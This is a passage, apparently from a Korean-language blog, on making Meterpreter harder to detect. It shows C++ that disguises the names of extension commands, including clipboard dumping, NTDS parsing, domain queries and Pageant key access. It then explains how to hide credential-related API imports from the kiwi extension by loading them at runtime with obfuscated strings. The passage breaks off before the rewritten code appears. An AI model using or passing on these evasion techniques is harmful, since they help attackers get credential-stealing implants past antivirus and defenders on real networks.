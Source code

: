 ```cpp
char hid_extapi_cOOyHTPTvZGK[] = {'e','x','t','a','p','i','_','c','l','i','p','b','o','a','r','d','_','m','o','n','i','t','o','r','_','s','t','o','p',0};
char hid_extapi_smtmvW05cI9y[] = {'e','x','t','a','p','i','_','c','l','i','p','b','o','a','r','d','_','m','o','n','i','t','o','r','_','d','u','m','p',0};
char hid_extapi_01kuYCM8z49k[] = {'e','x','t','a','p','i','_','a','d','s','i','_','d','o','m','a','i','n','_','q','u','e','r','y',0};
char hid_extapi_SMK9uFj6nThk[] = {'e','x','t','a','p','i','_','n','t','d','s','_','p','a','r','s','e',0};
char hid_extapi_PHxnGM7M0609[] = {'e','x','t','a','p','i','_','w','m','i','_','q','u','e','r','y',0};
char hid_extapi_J7EGS6FRHwkV[] = {'e','x','t','a','p','i','_','p','a','g','e','a','n','t','_','s','e','n','d','_','q','u','e','r','y',0};

Command customCommands[] =
{

    COMMAND_REQ(hid_extapi_UQOoNXigAPq4, request_window_enum),
    COMMAND_REQ(hid_extapi_vhFHmZ8u2hfz, request_service_enum),
    COMMAND_REQ(hid_extapi_pW25eeIGBeru, request_service_query),
    COMMAND_REQ(hid_extapi_S4Ws57MYBjib, request_service_control),
    COMMAND_REQ(hid_extapi_HJ0lD9Dl56A4, request_clipboard_get_data),
    COMMAND_REQ(hid_extapi_IiEzXils3UsR, request_clipboard_set_data),
    COMMAND_REQ(hid_extapi_czLOBo0HcqCP, request_clipboard_monitor_start),
    COMMAND_REQ(hid_extapi_WcWbTrsQujiT, request_clipboard_monitor_pause),
    COMMAND_REQ(hid_extapi_rPiFTZW4ShwA, request_clipboard_monitor_resume),
    COMMAND_REQ(hid_extapi_05fAoaZLqOoy, request_clipboard_monitor_purge),
    COMMAND_REQ(hid_extapi_cOOyHTPTvZGK, request_clipboard_monitor_stop),
    COMMAND_REQ(hid_extapi_smtmvW05cI9y, request_clipboard_monitor_dump),
    COMMAND_REQ(hid_extapi_01kuYCM8z49k, request_adsi_domain_query),
    COMMAND_REQ(hid_extapi_SMK9uFj6nThk, ntds_parse),
    COMMAND_REQ(hid_extapi_PHxnGM7M0609, request_wmi_query),
    COMMAND_REQ(hid_extapi_J7EGS6FRHwkV, request_pageant_send_query),
    COMMAND_TERMINATOR
};
```

## API Import 숨기기

외부 라이브러리에서 export 된 함수를 호출하면 linker가 *Import Address Table*(IAT)에 기록한다. 함수 이름은 바이너리에서 평문으로 볼 수 있고 실행하지 않고 정적으로 확인할 수 있다. 의심스러운 함수명들을 숨기고 정상적인 바이너리에 존재하는 것들은 유지하는 것이 좋다.

Meterpreter의 *kiwi* extension에서 다음과 같은 코드를 찾을 수 있다.

```cpp
enumStatus = SamEnumerateUsersInDomain(hDomain, &EnumerationContext, 0, &pEnumBuffer, 100, &CountRetourne
```

이 함수는 `samlib.dll`에서 export 되므로 컴파일된 바이너리에는 `samlib.dll`과 `SamEnumberateUsersInDomain` 문자열이 표시된다.

이를 해결하기 위해 실행 중에 `LoadLibrary/GetProcAddress`를 사용하여 API를 가져올 수 있다. 이 함수들은 문자열을 인자로 사용하므로 난독화를 잘해야 한다. 따라서 위의 코드를 다음과 같이 재작성해야 한다.
